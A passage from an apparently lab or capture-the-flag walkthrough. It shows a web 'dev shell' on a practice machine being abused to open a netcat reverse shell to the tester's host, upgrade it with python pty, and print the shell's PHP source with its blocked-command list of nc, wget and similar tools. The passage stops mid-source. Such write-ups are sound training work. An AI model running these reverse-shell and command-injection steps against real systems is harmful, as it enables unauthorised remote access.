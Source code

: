 -rw-r--r-- 1 root root     687 Mar  5 04:37 passwords.html
-rw-r--r-- 1 root root     111 Mar  4 14:09 robots.txt
-rw-r--r-- 1 root root   26357 Mar  4 14:09 school_badge.png
{% endhighlight %}

Do you see `.hint` file? Let's view it.

{% highlight text %}
Have you tried spawning a tty shell? Also don't forget to check for hidden files ;)
{% endhighlight %}

Now we're certain that the best option would be to create a reverse shell using `netcat`.

{% highlight text %}
eval nc -e /bin/sh 10.0.2.15 1234
{% endhighlight %}
{% highlight bash %}
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.0.2.4: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.4] 48628
ls -la
total 1572
drwxr-xr-x 2 root root    4096 Mar  5 04:53 .
drwxr-xr-x 3 root root    4096 Feb 28 19:03 ..
-rw-r--r-- 1 root root      84 Mar  5 04:53 .hint
-rw-r--r-- 1 root root  340400 Mar  4 14:09 WIP.jpg
-rw-r--r-- 1 root root    2588 Mar  4 14:09 about.html
-rw-r--r-- 1 root root    3145 Mar  4 14:09 contact.html
-rw-r--r-- 1 root root    1396 Mar  4 14:09 dev_shell.php
-rw-r--r-- 1 root root    1361 Mar  4 14:09 dev_shell.php.bak
-rw-r--r-- 1 root root 1177950 Mar  4 14:09 dev_shell_back.png
-rw-r--r-- 1 root root    1425 Mar  4 14:09 index.html
-rw-r--r-- 1 root root    1425 Mar  4 14:09 index.html.bak
-rw-r--r-- 1 root root    1925 Mar  4 14:09 lat_memo.html
-rw-r--r-- 1 root root    1560 Mar  4 14:09 login.html
-rw-r--r-- 1 root root    4086 Mar  4 14:09 news.html
-rw-r--r-- 1 root root     687 Mar  5 04:37 passwords.html
-rw-r--r-- 1 root root     111 Mar  4 14:09 robots.txt
-rw-r--r-- 1 root root   26357 Mar  4 14:09 school_badge.png
python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
www-data
{% endhighlight %}

Great, we have it! Let's play around and see what files we can find interesting. Firstly, I decide to take a look at the source code of the shell.

{% highlight html %}
$ cat dev_shell.php
cat dev_shell.php
<html>
<body>
  <?php
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
  ?>
  <style>
    #back{
      position: fixed;
      top: 0;
      left: 0;
      min-width: 100%;